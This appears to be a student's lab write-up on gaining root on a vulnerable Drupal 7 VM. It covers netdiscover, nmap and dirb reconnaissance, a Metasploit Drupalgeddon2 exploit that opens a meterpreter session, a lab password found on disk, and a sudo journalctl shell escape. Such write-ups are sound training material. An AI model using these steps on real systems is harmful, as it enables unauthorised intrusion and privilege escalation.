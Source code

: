 # Report Labs / Flavio POGGIOLI

## Table of contents

  - [Report Labs / Flavio POGGIOLI](#report-labs--flavio-poggioli)
  - [Table of contents](#table-of-contents)

## VM n°207 

Goal : gain access with root.

### 1. Find IP address of the machine

```bash
$ sudo netdiscover -r 10.0.2.0/24
```
![picture 2](../images/dbdb62e0e1c5ed3fd7088a391cdb1a9cd4c1e52a818f786f2d4d36a9d44d2690.png)  

Our target is 10.0.2.5. 

The 2 first is VBox address (network and dhcp).

### 2. List all open ports

We need to determine the open ports and the services running on them using nmap with some options.

```bash
$ sudo nmap -p- 10.0.2.5
```
![picture 1](../images/e73bc8b9096a5159631c59bd2426f4de02b3ca41dd097dcd5a26f0dd8eaf51fb.png)  

For more precision on version and services, we can use the following command :

```bash 
nmap -Pn -sC -sV -p- 10.0.2.5
```
![picture 3](../images/9f9cacc3afecd896756c2760e43ec342aa6cdb354b96705a93835491c545faae.png)  

We can see that multiple ports are open (22, 80, 5000, 8081, 9001).

For the port 80, which host a web server, we can dig to find a something in arborescence directory. We will use dirb.

```bash
$ dirb http://10.0.2.5 -w
```
![picture 7](../images/059b96d242b3101a2431a397f418ca384f05011872e9a3883164636274b4185a.png)  

There is 2 files which can be interesting : /index.txt and /robots.txt.

In robots.txt, we can find about.html that dirb didn't find.

![picture 8](../images/d9b51a4ca1593f3067c49e15b984d7ffb835eb35522fe5acaf8199ba2f93a019.png)  

They told us to not brute force the vulnerable stuff because it doesn't work everytime.

We can try to search for the CMS like the name of the machine suggest it.

Drupal 7 is used on this machine (we have seen it on second nmap scan).

### 3. Find vulnerabilities

We can use searchsploit to find vulnerabilities on Drupal 7 that we will using with MetaSploit.

```bash
$ searchsploit drupal 7

$ msfconsole

$ search drupal 7
```
![picture 9](../images/e22bce70cb67f8c22d04c49821b1791dd63bd669412888441e8b45eb1304ea13.png)  

![picture 10](../images/9e97cbf808de61c54f70a8a1e598c0595d4c57b2b625082b0beb7afb03889186.png)  

### 4. Exploit

We can test the exploit drupal_drupalgeddon2 which has an "excellent" rank.

```bash
msf6 > use exploit/unix/webapp/drupal_drupalgeddon2
```

We need to set the options of the exploit.
To see what attributes are present in the exploit that needed to be set again, we will use the command :

```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > options
```

![picture 11](../images/142838e243e9dccfb0d7111135ec40859fb83272127518198e0349c25a88d2b4.png)  

We have to change 3 attributes : RHOSTS, RPORT and LPORT.

```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rhosts 10.0.2.5
rhosts => 10.0.2.5
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rport
rport => 80
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rport 9001
rport => 9001
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set lport 1234
lport => 1234
```

And now, we can run the exploit.

```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > exploit
```

Now that we have an interpretzer, we can use the command "ls" and we can distinguish 2 files with a different last modified date than the other files / directories.

![picture 12](../images/2d63c959c2ae0c892d5460cdd2d4fe737fc1212cad2a37eaae0cd1ed1e477039.png)  

LICENSE.txt has nothing special but misc has some interesting files.

```bash
meterpreter > ls misc
```

After a search, there is a file with different permissions and again, a different last modified date : tyrell.pass.

![picture 13](../images/5704a953278b7be2d2a891c2c79651fcad584d335d10d0c56c82fd5cf8f89dd6.png)  

We find a username and a password to use it on SSH connection.

Now, we can list all users with the home directory.

![picture 14](../images/9c948e7a0dd8dd17aa15f0c2a071822d3f37b9ce5be342bc983a6c4faf122103.png)  

tyrell and ghost are empty but Elliot directory has a file named user.txt but we don't have the permission to read it.

### 5. SSH connection

Now that we have credentials :

```bash
Username: tyrell
Password: mR_R0bo7_i5_R3@!_
```

We can try to connect with these credentials on SSH connection.

![picture 15](../images/9cd3f862d06258f42786eaf807d826305bab2ca5b1478d1a5ebaa812705f6cf6.png)  

But tyrell cannot do a "sudo bash" to get a root shell.

![picture 16](../images/6838ea1c55cce90af94b36c33454b96ba54f4ee507afc2d8e9572c02f230c158.png)  

To gain root access, I've used GTFOBins, list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems

[journalctl](https://gtfobins.github.io/gtfobins/journalctl/) can be used to gain root access.

```bash
tyrell@vuln_cms:~$ sudo /bin/journalctl

!/bin/sh
```
And with that, you have root access.